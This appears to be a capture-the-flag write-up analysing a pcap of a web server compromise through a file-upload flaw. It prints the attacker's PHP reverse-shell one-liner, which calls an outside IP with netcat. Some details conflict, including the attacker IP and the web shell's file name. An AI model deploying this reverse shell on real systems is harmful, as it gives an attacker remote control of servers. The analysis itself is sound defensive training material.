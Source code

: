```yaml
---
categories: [DFIR, Network Forensics]
tags: [wireshark, web attacks]
---
```

> Scenario

> An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

###### 1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

- This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to `Statistics => Conversations => IPv4`. The IP address of the attacker is 117.11.88.128. Plugging this into `ipgeolocation.io`, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)_ipgeolocation.io reponse_

###### 2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

- The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`.

###### 3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

- Going to the `Statistics => Protocol Hierarchy`, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)_Wireshark snapshot_

- I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

- Line of code:

```php
<?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);
```

###### 4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

- Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

###### 5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

- This was straightforward, as we already found out from the PHP snippet that the attacker leverages port `8080`.

###### 6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

- Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

###### **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (`upload(2).php`). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the `passwd` file containing passwords for different accounts.
